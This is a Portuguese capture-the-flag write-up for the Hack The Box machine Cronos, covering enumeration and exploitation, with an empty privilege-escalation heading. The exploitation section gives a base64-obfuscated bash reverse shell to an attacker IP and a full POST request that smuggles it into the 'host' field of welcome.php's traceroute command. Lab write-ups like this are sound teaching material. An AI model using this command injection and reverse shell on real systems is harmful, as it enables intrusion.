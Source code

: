 Cronos
========================

## Enumeration
<h1>Enumeration</h1>

Basic nmap scan

![qownnotes-media-gwbixw](../../.gitbook/assets/qownnotes-media-gwbixw.png)

Vuln scan nmap

![qownnotes-media-VIgBNS](../../.gitbook/assets/qownnotes-media-VIgBNS.png)

UDP scan

![qownnotes-media-mzPPnp](../../.gitbook/assets/qownnotes-media-mzPPnp.png)

Então temos SSH, HTTP e DNS

DNS

![qownnotes-media-sNOphN](../../.gitbook/assets/qownnotes-media-sNOphN.png)

    echo "10.10.10.13    admin.cronos.htb www.cronos.htb cronos.htb ns1.cronos.htb" >> /etc/hosts


![qownnotes-media-wywhXk](../../.gitbook/assets/qownnotes-media-wywhXk.png)

HTTP

admin.cronos.htb

![qownnotes-media-EofrJc](../../.gitbook/assets/qownnotes-media-EofrJc.png)

Com base nessa resposta do wellcome.php, podemos identificar que existe a possibilidade de execução de comando no servido com a técnica representada na parte de exploitation:

cronos.htb

![qownnotes-media-LPcQCW](../../.gitbook/assets/qownnotes-media-LPcQCW.png)


ns1.cronos.htb = 10.10.10.13

![qownnotes-media-rbnDZD](../../.gitbook/assets/qownnotes-media-rbnDZD.png)

## Exploitation

![qownnotes-media-FVGcFT](../../.gitbook/assets/qownnotes-media-FVGcFT.png)

Com isso já deu para perceber que existe um possível entry point aqui, podemos prosseguir com o reconhecimento removendo na resposta o redirecionamento:

![qownnotes-media-Kvdfhy](../../.gitbook/assets/qownnotes-media-Kvdfhy.png)

Para isso removemos o cabeçalho Location e alteramos a resposta de 302 para 200 OK.

Então entendemos como fica a requisição para o servidor:

![qownnotes-media-bqgXSp](../../.gitbook/assets/qownnotes-media-bqgXSp.png)

Mandamos o seguinte payload para exploração da vulnerabilidade:

    echo "bash -i >& /dev/tcp/10.10.14.14/8081 0>&1" | base64
    echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC84MDgxIDA+JjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash
    
Ao disparar esse payload obtivemos a shell:

![qownnotes-media-QwFmDs](../../.gitbook/assets/qownnotes-media-QwFmDs.png)

```
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 401
Origin: http://admin.cronos.htb
Connection: close
Upgrade-Insecure-Requests: 1

command=traceroute&host=8.8.8.8%3B+%65%63%68%6f%24%7b%49%46%53%7d%4c%32%4a%70%62%69%39%69%59%58%4e%6f%49%43%31%73%49%44%34%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4d%54%51%76%4f%44%41%34%4d%53%41%77%50%43%59%78%49%44%49%2b%4a%6a%45%4b%24%7b%49%46%53%7d%7c%24%7b%49%46%53%7d%62%61%73%65%36%34%24%7b%49%46%53%7d%2d%64%24%7b%49%46%53%7d%7c%24%7b%49%46%53%7d%62%61%73%68
```

## PrivEsc


